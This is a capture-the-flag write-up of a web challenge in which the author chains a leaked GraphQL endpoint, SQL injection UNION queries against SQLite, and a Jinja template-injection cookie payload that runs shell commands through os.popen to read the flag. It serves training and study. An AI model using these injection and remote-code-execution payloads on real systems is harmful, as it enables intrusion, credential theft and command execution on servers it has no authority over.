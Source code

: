 
# Maze

"maze corparate just started a new trading platform, let's hope its secure because I got all my funds over there"

`<link to website>`

<hr>

The root path of the website redirects to the `/login` path, that presents a login form.

![Login Page](images/maze_login.png)

Looking at `/robots.txt` it contains a path `/sup3r_secr37_@p1`. When visiting this path, wer are presented with a GraphiQL window, in which we can run GraphQL queries.

Writing anything in the query side of the page, we can see all queries that we can query against the database (You could also send an introspection query to find all possible queries, but since we have a GraphiQL window here we'll utilize that.). The only possible query is `allTraders`, which I suppose queries for "traders" in the database.

Using the autocomplete/suggestion by GraphiQL, we query for all possible users and get as much data as we can returned by the query:

![GraphiQL Datamining](images/maze_datamining.png)

Using the username `XFT` and the password `iigvj3xMVuSI9GzXhJJWNeI`, we are able to login to the login page at the root path, `"/"`.

![Logged in](images/maze_logged_in.png)

![Coin](images/maze_coin.png)

Now logged in we observe two things:

1) There is an admin page that looks just like the normal `/login` path
2) There are three coins displayed on the landing page that are displayed on a separate page, queried by the argument `coin`.

Lets see if there's a SQL injection on the query!

We can confirm that there is a sqli with the following query:
```
/trade?coin=' AND 1=2 --
```

If the sql server is sqlite3, all table names are stored in the table `sqlite_master`, which has the columns `type`, `name`, `tbl_name`, `rootpage` and most notably `sql` which contains the SQL command to create the table.

Trying our luck we use `UNION SELECT` on the `sqlite_master` table, getting the name of table and the sql command used to create it. Since we know the webpage displays a title and a body for a coin, we can determine that there are two columns fetched so we match that in our `UNION SELECt`.
```
/trade?coin=' AND 1=2 UNION SELECT name, sql FROM sqlite_master --
```

With luck we immediately see the name and the sql command used to create the `admin` table (if we hand't been so lucky we could have specified which row in `sqlite_master` to return using the clause `WHERE rowid=n`). The result is:

![SQLI REsult](images/maze_sqli_result.png)


We then proceed obtaining all usernames and passwords in the `admin` table using:
```
/trade?coin=' AND 1=2 UNION SELECT username, password FROM admin --
```

The first row returned contains the data:
```
username = admin
password = p0To3zTQuvFDzjhO9
```
which we can then use to login on the `/admin` path.

Now logged in, we are prompted to "get the flag and beat the maze". The cookie `name` is also set to the value `skid`, along with a global variable defined 

![Admin Page](images/maze_admin.png)

![Admin Page HTML Source](images/maze_admin_src.png)

We can also observe that the global variable `name` is set to `skid`, which is the same value that the cookie is set to by default. Perhaps this could be a SSTI (Server Side Template Injection).

Setting the cookie to `{{1+1}}`, the name variable is set to 
```javascript
var name = "2";
```

Setting the cookie to `{{3 * '3'}}`, we determine that the template engine is written in python and is most likely [Jinja](https://jinja.palletsprojects.com/en/2.11.x/) (a very popular python template engine). This result is:
```javascript
var name = "333";
```

Knowing the template engine, we can easily execute shell commands via the os module. 

Using `ls` we see that there is a file called `flag.txt` in the current directory.
```
name={{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}

Response:
var name = "Dockerfile
__pycache__
app.py
coins.db
flag.txt
note
requirements.txt
run.sh
sandbox
static
templates
wsgi.py
";
```

Running `cat flag.txt` in the SSTI gives us the flag:

```
flag{u_35c@p3d_7h3_m@z3_5ucc3ssfu77y9933}
```
